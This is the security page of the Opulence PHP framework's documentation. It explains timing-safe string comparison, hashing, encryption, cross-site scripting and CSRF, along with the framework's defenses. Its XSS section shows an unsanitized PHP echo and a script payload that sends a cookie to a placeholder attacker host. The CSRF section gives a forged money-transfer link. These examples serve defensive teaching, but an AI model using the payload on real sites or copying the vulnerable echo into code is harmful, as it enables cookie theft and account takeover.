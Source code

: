 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encryption-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (CSS)](#cross-site-scripting)
  1. [What is It?](#css-what-is-it)
  2. [How to Defend Against It](#css-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="introduction">Introduction</h2>
Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>
<h4 id="random-strings-what-is-it">What is It?</h4>
Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>
Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>
<h4 id="comparing-strings-what-is-it">What is It?</h4>
Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using 
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>
Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.
   
<h2 id="hashing">Hashing</h2>
<h4 id="hashing-what-is-it">What is It?</h4>
Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.  

<h4 id="hashing-how-to-use-it">How to Use It</h4>
Learn how to [hash data](cryptography#hashing) in Opulence.
   
<h2 id="encryption">Encryption</h2>
<h4 id="encryption-what-is-it">What is It?</h4>
Encryption is the process of encoding data with a special key so that only authorized parties may read it.  

<h4 id="encryption-how-to-use-it">How to Use It</h4>
Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (CSS)</h2>
<h4 id="css-what-is-it">What is It?</h4>
Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a CSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="css-how-to-defend-against-it">How to Defend Against It</h4>
To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-fortune#sanitized-tags) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>
<h4 id="csrf-what-is-it">What is It?</h4>
Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>
To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{! csrfInput() !}}` view function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{ csrfToken() }}` template function to print the token in elements like meta tags:

```php
<meta name="csrf-token" content="{{ csrfToken() }}">
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` HTTP header in requests.